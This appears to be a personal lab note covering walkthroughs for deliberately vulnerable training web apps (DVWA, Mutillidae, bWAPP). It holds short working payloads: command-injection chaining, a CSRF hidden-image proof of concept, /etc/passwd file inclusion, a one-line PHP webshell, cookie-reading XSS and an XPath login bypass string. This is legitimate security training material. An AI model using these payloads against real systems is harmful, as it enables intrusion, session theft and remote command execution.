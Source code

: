 kalitags: #type/note

---
# DVWA - Damn vulnerable web application
## brute force
brute force with burp cluster bomb
## command execution
end ping command with ; | or && and then enter another command
## CSRF - cross site request forgery
1. get request in burp
2. write proof of concept script
```html
<html>
	<head>
		<title>CSRF Proof of Concept</title>
	</head>
	<body>
		<h1>CSRF Example</h1>
		<img style="display:none" src="ENTER THE FORGED REQUEST HERE" alt="">
	</body>
</html>
```

usually you do a 1:1 copy of the webpage and insert this snippet with a hidden image
3. in the hidden image src part you enter the request you want to be sent
4. you present the malicous wite to some user the request will be sent using his session ID -> you might be able to change credentials, retrieve information,...
## Insecure captcha
doesnt work anymore
## File Inclusion
change page parameter in request to some file like /etc/passwd
can you include a remote file?
## SQL injection
[[2 Tech-Specifics/Web/WebApp Attacks/Attacks/Injection Attacks/SQL Injection]]
## upload vulns
upload a simple php webshell
```php
<?php
	system($GET["cmd"]);
?>
```

then send request to this file on the webserver and pass a command in cmd parameter
## XSS
enter a script tag
```html
<script>alert();</script>
```

```html
<script>alert(document.cookie);</script>
```

# OWASP mutillidae

just explore and hackk :)
# bWAPP
better use on 10.0.1.11 
## HTML Injection
insert script tag for cross site scripting

## XPAth injection (logon)
Xpath is the query languag used for databases which use xml as file format
`' or '1'='1 ` dont forget the space at the end!
## XPath Injection (search)
irgendwie kompliziert
## PHP injection
in URL parameter message ändern zu php info oder so
## man in the middle
sniff credentials with wireshark


